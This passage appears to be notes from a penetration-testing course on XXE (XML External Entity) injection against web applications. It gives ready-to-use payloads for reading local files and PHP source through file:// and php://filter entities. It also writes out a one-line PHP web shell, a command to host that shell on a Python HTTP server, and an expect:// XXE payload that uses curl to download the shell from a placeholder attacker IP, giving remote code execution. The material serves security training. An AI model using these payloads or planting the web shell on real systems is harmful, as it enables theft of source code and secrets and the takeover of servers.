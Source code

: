     Tip: In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.


- Reading Source Code


```
<!DOCTYPE email [
<!ENTITY company SYSTEM "file://index.php">
]>
```


# PHP Filters

PHP provides wrapper filters that allow us to base64 encode certain resources 'including files', in which case the final base64 output should not break the XML format. 

```
<!DOCTYPE email [
    <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

This trick only works with PHP web applications. 


# Remote Code Execution with XXE

we may be able to execute commands on PHP-based web applications through the `PHP://expect` filter, though this requires the PHP expect module to be installed and enabled.

The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands.

```
    $ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php

    $ sudo python3 -m http.server 80
```

```
<?xml version="1.0"?>
<!DOCTYPE email [
    <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
    <name></name>
    <tel></tel>
    <email>&company;</email>
    <message></message>
</root>
```

    Note: We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like |, >, and { may break the code, so we should avoid using them.
